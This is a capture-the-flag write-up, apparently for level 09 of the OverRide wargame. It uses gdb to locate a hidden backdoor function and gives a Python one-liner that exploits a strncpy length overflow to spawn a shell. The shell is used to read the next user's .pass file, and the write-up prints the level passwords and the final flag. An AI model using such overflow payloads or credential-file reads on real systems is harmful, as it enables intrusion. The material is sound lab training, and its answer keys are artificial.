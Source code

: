 # Level 09
*password : fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S*

## Analyze

```
scp -P 4242 level09@192.168.56.109:level09 binary/
```
Interesting part:
```
strncpy(buffer, msg, buffer[180]);
```
buffer[180] is filled by username

## Buffer overflow : strncpy exploit

**objective** : execute `secret_backdoor`

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
`secret_backdoor()` address : 0x000055555555488c\
- offset : 200 
- `buffer[180]` : 200 + 8 = 208 (d0 in hexadecimal)

```
$ python -c 'print "\x41" * 40 + "\xd0" + "\n" + "\x41" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' > /tmp/level09 ; cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
```
$ su end
Password: 
end@OverRide:~$ cat end
GG !
```
